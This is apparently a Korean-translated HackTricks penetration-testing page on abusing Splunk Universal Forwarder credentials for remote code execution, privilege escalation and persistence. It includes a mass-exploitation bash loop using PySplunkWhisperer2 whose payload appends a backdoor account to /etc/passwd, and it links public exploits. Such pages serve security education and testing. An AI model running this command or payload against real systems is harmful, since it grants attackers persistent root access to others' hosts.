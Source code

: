 # Splunk LPE and Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

내부 또는 외부에서 머신을 **열거**하는 경우 **Splunk가 실행 중인** (포트 8090) 것을 발견하면, 운이 좋게도 **유효한 자격 증명**을 알고 있다면 **Splunk 서비스를 악용**하여 Splunk를 실행 중인 사용자로서 **쉘을 실행**할 수 있습니다. 루트가 실행 중이라면, 루트 권한으로 상승할 수 있습니다.

또한 이미 루트인 경우 Splunk 서비스가 로컬호스트에서만 수신 대기하지 않는다면, Splunk 서비스에서 **비밀번호** 파일을 **훔치고** 비밀번호를 **크랙**하거나 **새로운** 자격 증명을 추가할 수 있습니다. 그리고 호스트에서 지속성을 유지할 수 있습니다.

아래 첫 번째 이미지에서 Splunkd 웹 페이지가 어떻게 생겼는지 볼 수 있습니다.



## Splunk Universal Forwarder Agent Exploit Summary

자세한 내용은 [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) 게시물을 확인하세요. 이것은 요약입니다:

**Exploit Overview:**
Splunk Universal Forwarder Agent (UF)를 대상으로 하는 익스플로잇은 에이전트 비밀번호를 가진 공격자가 에이전트를 실행하는 시스템에서 임의의 코드를 실행할 수 있게 하여 전체 네트워크를 위험에 빠뜨릴 수 있습니다.

**Key Points:**
- UF 에이전트는 수신 연결이나 코드의 진위를 검증하지 않아 무단 코드 실행에 취약합니다.
- 일반적인 비밀번호 획득 방법에는 네트워크 디렉토리, 파일 공유 또는 내부 문서에서 찾는 것이 포함됩니다.
- 성공적인 익스플로잇은 손상된 호스트에서 SYSTEM 또는 루트 수준의 접근, 데이터 유출 및 추가 네트워크 침투로 이어질 수 있습니다.

**Exploit Execution:**
1. 공격자가 UF 에이전트 비밀번호를 획득합니다.
2. Splunk API를 사용하여 에이전트에 명령이나 스크립트를 전송합니다.
3. 가능한 작업에는 파일 추출, 사용자 계정 조작 및 시스템 손상이 포함됩니다.

**Impact:**
- 각 호스트에서 SYSTEM/루트 수준의 권한으로 전체 네트워크가 손상됩니다.
- 탐지를 피하기 위해 로깅을 비활성화할 가능성.
- 백도어 또는 랜섬웨어 설치.

**Example Command for Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**사용 가능한 공개 익스플로잇:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk 쿼리 악용

**자세한 내용은 [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) 게시물을 확인하세요.**

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
